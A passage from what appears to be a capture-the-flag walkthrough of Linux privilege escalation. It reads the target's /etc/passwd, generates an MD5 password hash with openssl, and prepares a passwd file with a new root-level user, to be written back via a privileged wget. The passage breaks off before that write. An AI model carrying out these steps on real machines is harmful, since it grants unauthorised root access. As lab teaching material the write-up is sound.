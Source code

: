 For getting root shell we can manipulate this binary by modifing `/etc/passwd` file. Let's exploit.
Check out an aw0some `wget` privilege escaltion [Article](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/) here. 

First look on target machine's `/etc/passwd` file and copy paste to our host machine, 

```bash
Mid_PrivShell $: cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
john:x:1000:1000::/home/john:/bin/bash
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
ftp:x:106:108:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
david:x:1001:1001::/home/david:/bin/bash

Mid_PrivShell $: 

```
In our host machine with help of `openssl` tool we are creating password for our new user called `anon`.

```bash
➜  openssl passwd -1 -salt anon anon
$1$anon$G05/IEkCfH5/MvkGBhHbe0

➜ 
```
After that we are adding our new user with root privilege to that `passwd` file at the bottom line.

```bash

➜  cat passwd                                                          
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```